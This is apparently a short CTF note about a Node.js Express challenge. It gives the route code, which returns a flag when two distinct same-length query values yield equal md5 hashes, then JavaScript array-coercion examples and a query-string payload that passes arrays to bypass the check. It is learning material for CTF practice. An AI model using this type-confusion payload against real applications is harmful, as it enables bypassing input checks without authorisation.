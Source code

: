 tags:: CTF/JS/弱类型

- ```js
  var express = require('express');
  var router = express.Router();
  var crypto = require('crypto');
  
  function md5(s) {
    return crypto.createHash('md5')
      .update(s)
      .digest('hex');
  }
  
  /* GET home page. */
  router.get('/', function(req, res, next) {
    res.type('html');
    var flag='xxxxxxx';
    var a = req.query.a;
    var b = req.query.b;
    if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
    	res.end(flag);
    }else{
    	res.render('index',{ msg: 'tql'});
    }
    
  });
  
  module.exports = router;
  
  
  ```
- # 弱类型
	- ```js
	  > [] + "asdf"
	  'asdf'
	  > [1] + "asdf"
	  '1asdf'
	  > [1] + "asdf"
	  '1asdf'
	  > [undefined, 1] + "asdf"
	  ',1asdf'
	  > [1,2] + "asdf"
	  '1,2asdf'
	  > [1,2,3] + "asdf"
	  '1,2,3asdf'
	  > [1,"2,3"] + "asdf"
	  '1,2,3asdf'
	  > ["1,2",3] + "asdf"
	  '1,2,3asdf'
	  ```
	- `?a[]=1&a[]=2,3&b[]=1,2&b[]=3`
-